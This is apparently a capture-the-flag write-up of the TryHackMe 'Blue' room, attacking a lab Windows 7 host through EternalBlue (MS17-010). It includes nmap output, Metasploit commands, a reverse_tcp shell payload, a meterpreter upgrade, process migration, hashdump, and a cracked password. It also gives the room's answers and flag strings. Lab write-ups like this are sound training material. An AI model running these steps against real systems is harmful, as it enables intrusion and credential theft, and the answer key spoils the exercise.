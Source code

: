 # Blue_THM

- We start the machine and get the IP → `10.201.76.28`
- Let’s scan the machine
- Nmap report
    
    ```json
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-25 12:03 IST
    Nmap scan report for 10.201.76.28
    Host is up (0.34s latency).
    Not shown: 991 closed tcp ports (reset)
    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    3389/tcp  open  tcpwrapped
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49158/tcp open  msrpc        Microsoft Windows RPC
    49160/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 83.68 seconds
    
    ```
    
- q1 → How many ports are open with a port number under 1000?
    - Solution → 3
- For checking which vuln is persent on the machine , we use metasploit.
- we check for the eternal_blue vulnerability
- This specific exploit
    - We get this data using the `info` command on the context
    
    ```json
           Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
         Module: exploit/windows/smb/ms17_010_eternalblue
       Platform: Windows
           Arch: x64
     Privileged: Yes
        License: Metasploit Framework License (BSD)
           Rank: Average
      Disclosed: 2017-03-14
    
    ```
    
- `check` command checks whether this exploit will work against it.
    - Results
        
        ```json
        [*] 10.201.76.28:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
        [+] 10.201.76.28:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
        /usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
        [*] 10.201.76.28:445      - Scanned 1 of 1 hosts (100% complete)
        [+] 10.201.76.28:445 - The target is vulnerable.
        ```
        
- This shows that the target is vulnerable.
- q2 → What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) ?
    - Solution → ms17-010

- q2 → Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
    - Solution → exploit/windows/smb/ms17_010_eternalblue
- using the command `set rhosts`
- q2 →Show options and set the one required value. What is the name of this value? (All caps for submission)
    - Solution → rhosts
- I used the command `sessions -u <session id>` but you can use this also.
- q2 →If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
    - Solution → post/multi/manage/shell_to_meterpreter
- q2 →Select this (use MODULE_PATH). Show options, what option are we required to change?
    - Solution → session
- `hashdump` command when used in the meterpreter shell gives us the name along with the hash.
- q2 →What is the name of the non-default user?
    - Solution → Jon
- Using [crackstation.net](http://crackstation.net) I cracked the hash which resulted in the password.
- q2 →Copy this password hash to a file and research how to crack it. What is the cracked password?
    - Solution → alqfna22
- 
- Let’s set the payload and run the exploit.
- One more thing that, before running the exploit make sure to set the required options according to needs. i.e. setting the rhosts option to the machine IP.
- Now, we set the payload to `set payload windows/x64/shell/reverse_tcp`
- Let’s run the exploit now.
- Very important step is that, you have to set the lhost option to your thm(tryhackme) IP
- We got a  windows shell, Now we need to upgrade the shell in metasploit.
- We can see the current sessions using the `sessions` command.
    
    ![VirtualBoxVM_BCTEFGypFW.png](Blue_THM%202793c5d54c7680aaaf05e10dd2d373f0/VirtualBoxVM_BCTEFGypFW.png)
    
- Upgrading the shell we see the meterpreter prompt
    
    ![VirtualBoxVM_fspZXq3DAG.png](Blue_THM%202793c5d54c7680aaaf05e10dd2d373f0/VirtualBoxVM_fspZXq3DAG.png)
    
- Now we get a fully functioning meterpreter shell
- Now we migrate to a elevated process by using migrate to any process thats running as admin
- Simply check the pids with the command `ps`  and the then do `migrate <pid>` to migrate to that process. This might need some trial and errors.
- Now we get the first flag in the c:// directory.
- q2 →Flag1? *This flag can be found at the system root.*
    - Solution → flag{access_the_machine}
- Next we get the hint  for the next flag which is that the folder where passwords are stored. After a little google seaarch we find this → `C:\\Windows\\System32\\config` directory.
- q2 →Flag2? *This flag can be found at the location where passwords are stored within Windows.*
    - Solution → **flag{sam_database_elevated_access}
- Finally the last flag can be found in the Jon/documents folder.
- q2 → flag3? *This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.*
    - Solution →  **flag{admin_documents_can_be_valuable}